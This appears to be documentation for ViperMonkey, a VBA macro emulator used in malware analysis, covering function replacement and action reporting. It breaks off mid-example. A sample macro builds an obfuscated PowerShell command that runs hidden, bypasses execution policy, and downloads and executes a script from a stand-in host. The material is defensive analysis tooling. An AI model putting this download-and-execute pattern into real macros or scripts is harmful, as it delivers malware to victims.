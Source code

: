 ## Replacing Functions
A Function or Sub may be replaced with a Python implemented function. This is useful to help speed up the parsing of a known function or to replace a function that will most likely fail due to its complexity.

To replace a function, update the `Context` object's `global` dictionary with a function that accepts two parameters `context` and `params` and may return a result. 

```python
import base64
import vipermonkey

vba_code = r'''
Public Function Base64Decode(ByVal s As String) As Byte()
    ' Some complex code
End Function

Public Sub Document_Open()
    Dim result As String
    result = Base64Decode("aGVsbG8gd29ybGQh")
Enc Sub
'''

def replaced_base64(context, params):
    return base64.b64decode(params[0])

context = vipermonkey.Context()
module = vipermonkey.Module(vba_code)
# NOTE: The function should be replaced after the context is evaluated by the module. Otherwise the module will replace your function.
module.load_context(context)

context.globals['Base64Decode'] = replaced_base64

document_open = context['Document_Open']
document_open.load_context(context)
print "DECODED DATA: ", context['result']
```
```
DECODED DATA:  hello world!
```

NOTE: Since replacing a Base64 function is so common, this function has already been implemented for you and can be accessed with `vipermonkey.Base64DecodeString`.

## Reporting Actions
During emulation, ViperMonkey records unique and interesting actions would have effects to the external system (e.g. dropped files, command execution, and HTTP requests). These actions can be accessed from the `Context` object's `.actions` attribute.

```python
import vipermonkey

vba_code = r'''
Public Function Execute() As Variant

Dim m1, m2, m3, m4 As String

m1 = "p" & "o" & "w" & "e" & "r" & "s" & "h" & "e" & "l" & "l" & " " & "-" & "w" & " " & "h" & "i" & "d" & "d" & "e"
m2 = "n" & " -" & "e" & "x" & "e" & "c" & " b" & "y" & "p" & "a" & "s" & "s " & "-" & "c " & Chr(34)
m3 = "$a" & "=" & "Invoke" & "-" & "We" & "bRequest" & " ww" & "w.example.com" & "/" & "scr" & "ipt.txt"
m4 = "; " & "Inv" & "ok" & "e-Expr" & "ession " & "$" & "a" & Chr(34) & ""
```
